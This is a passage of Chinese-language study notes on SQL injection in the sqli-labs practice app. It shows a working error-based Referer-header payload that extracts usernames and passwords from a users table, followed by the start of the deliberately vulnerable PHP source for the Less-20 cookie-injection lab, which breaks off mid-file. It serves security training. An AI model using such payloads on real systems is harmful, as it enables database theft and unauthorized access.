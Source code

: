 #### 拖库

```
Referer: http://192.168.231.129:9001/Less-19/' and extractvalue(1,concat(0x7e, (select concat(username,':',password) from users limit 1,1))), '2')#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606234532761.png" alt="image-20230606234532761" style="zoom:50%;" />

## POST注入-Cookie注入

### 注入原理

#### 源码审计

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>

    <title>Less-20 Cookie Injection- Error Based- string</title>
</head>

<body bgcolor="#000000">
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
if (!isset($_COOKIE['uname'])) {
    //including the Mysql connect parameters.
    include("../sql-connections/sql-connect.php");

    echo "<div style=' margin-top:20px;color:#FFF; font-size:24px; text-align:center'> Welcome&nbsp;&nbsp;&nbsp;<font color='#FF0000'> Dhakkan </font><br></div>";
    echo "<div  align='center' style='margin:20px 0px 0px 510px;border:20px; background-color:#0CF; text-align:center;width:400px; height:150px;'>";
    echo "<div style='padding-top:10px; font-size:15px;'>";


    echo "<!--Form to post the contents -->";
    echo '<form action=" " name="form1" method="post">';
```
